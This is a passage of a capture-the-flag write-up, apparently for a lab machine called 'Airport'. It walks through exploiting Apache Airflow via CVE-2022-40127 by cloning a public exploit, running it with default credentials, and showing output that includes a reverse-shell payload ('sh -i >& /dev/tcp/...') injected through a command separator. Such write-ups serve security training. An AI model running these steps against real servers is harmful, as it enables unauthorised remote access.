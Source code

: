 ## Shell - matthew (WSL)

Scrolling down on the website we can notice the version used by the server:

![4](https://github.com/ruycr4ft/ruycr4ft.github.io/blob/master/assets/CTFs/Airport/4.png)

And by looking for CVEs, we'll easily get to [this one](https://github.com/jakabakos/CVE-2022-40127-Airflow-RCE), which will get us remote command execution.

![image-20240329165047448](https://github.com/ruycr4ft/ruycr4ft.github.io/blob/master/assets/CTFs/Airport/5.png)

First of all we will clone the repository into our attacker box with the following command:

<pre 
  class="command-line" 
  data-prompt="ruycr4ft@hacky $" 
  data-output="4"
><code class="language-bash">git clone https://github.com/jakabakos/CVE-2022-40127-Airflow-RCE.git
Clonando en 'CVE-2022-40127-Airflow-RCE'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (24/24), done.
remote: Total 27 (delta 6), reused 6 (delta 0), pack-reused 0
Recibiendo objetos: 100% (27/27), 5.84 MiB | 1.16 MiB/s, listo.
Resolviendo deltas: 100% (6/6), listo.
cd CVE-2022-40127-Airflow-RCE</code>
</pre> 

And after that we will trigger the exploit to send a reverse shell to our IP and port 1234, for example:

<pre 
  class="command-line" 
  data-prompt="ruycr4ft@hacky $" 
  data-output="4"
><code class="language-bash">python3 exploit.py -u airflow -p airflow -url http://10.10.11.136:8080 -a -host 10.10.11.129 -port 1433
[+] CSRF token found.
Login was successful. Captured session cookie: b03d4da3-3514-4ae0-ac1c-1e9f700f82d1.RnaXA4_2O943f04gmkhr1nq1ZK8
[+] Airflow version found: 2.3.4
[+] Version is vulnerable.
[+] Yay! The example_bash_operator example DAG exists.
[+] Proceeding with the exploit. Trying to upload reverse shell.
[+] Using the following payload: ";sh -i >& /dev/tcp/10.10.11.129/1433 0>&1;""